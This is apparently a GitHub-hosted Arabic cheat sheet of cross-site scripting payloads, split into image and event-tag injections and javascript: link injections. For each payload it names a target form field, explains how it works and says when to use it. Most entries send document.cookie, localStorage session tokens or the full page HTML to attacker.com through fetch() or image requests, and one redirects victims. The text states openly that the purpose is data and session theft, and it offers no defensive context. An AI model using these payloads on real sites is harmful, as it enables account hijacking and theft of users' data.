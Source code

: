 #### ب. حقن باستخدام وسوم صور أو أحداث
{ #XSS_exploit  /  #XSS--ALL--Event--Payload /  #XSS_Idea_for_Img_tag}
استخدام وسوم HTML مع أحداث JavaScript لتنفيذ الشيفرة.
- **الحقن**: `<img src=x onload="alert('XSS')">`
  - **الإدخال**: أدخل في حقل معاينة: `<img src=x onload="alert('XSS')">`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد الثغرة تلقائيًا.
- **الحقن**: `<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **الإدخال**: أدخل في حقل الاسم: `<img src=x onerror="fetch('http://attacker.com/log?c='+document.cookie)">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<img src=x onmouseover="fetch('http://attacker.com/log?d='+document.domain)">`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `<img src=x onmouseover="fetch('http://attacker.com/log?d='+document.domain)">`
  - **كيف يعمل**: يرسل النطاق عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتتبع التفاعل.
- **الحقن**: `<img src=x onfocus="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **الإدخال**: أدخل في حقل إعدادات: `<img src=x onfocus="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')">`
  - **كيف يعمل**: يرسل رمز الجلسة عند التركيز.
  - **متى يُستخدم؟**: لاستهداف أحداث التفاعل.
- **الحقن**: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **الإدخال**: أدخل في حقل معاينة نموذج: `<img src=x onload="fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})">`
  - **كيف يعمل**: يرسل محتوى الصفحة عند تحميل الصورة.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.

#### ج. حقن باستخدام روابط JavaScript
{ #XSS_exploit /   #ideas_for_url  }
استخدام بروتوكول `javascript:` في روابط أو سمات.
- **الحقن**: `<a href="javascript:alert('XSS')">Click</a>`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `<a href="javascript:alert('XSS')">Click</a>`
  - **كيف يعمل**: ينفذ تنبيهًا عند النقر على الرابط.
  - **متى يُستخدم؟**: لتأكيد الثغرة عند التفاعل.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/?c='+document.cookie)">Click</a>`
  - **الإدخال**: أدخل في حقل تحرير النص: `<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند النقر.
  - **متى يُستخدم؟**: لسرقة البيانات عند التفاعل.
- **الحقن**: `<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **الإدخال**: أدخل في حقل معاينة: `<a href="javascript:document.location='http://attacker.com'">Click</a>`
  - **كيف يعمل**: يعيد توجيه المستخدم عند النقر.
  - **متى يُستخدم؟**: لإعادة التوجيه.
- **الحقن**: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **الإدخال**: أدخل في حقل الإعدادات: `<a href="javascript:new Image().src='http://attacker.com/log?d='+document.domain">Click</a>`
  - **كيف يعمل**: يرسل النطاق عند النقر.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `<a href="javascript:fetch('http://attacker.com/log', {method: 'POST', body: localStorage.getItem('token')})">Click</a>`
  - **كيف يعمل**: يرسل رمز الجلسة عند النقر.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.
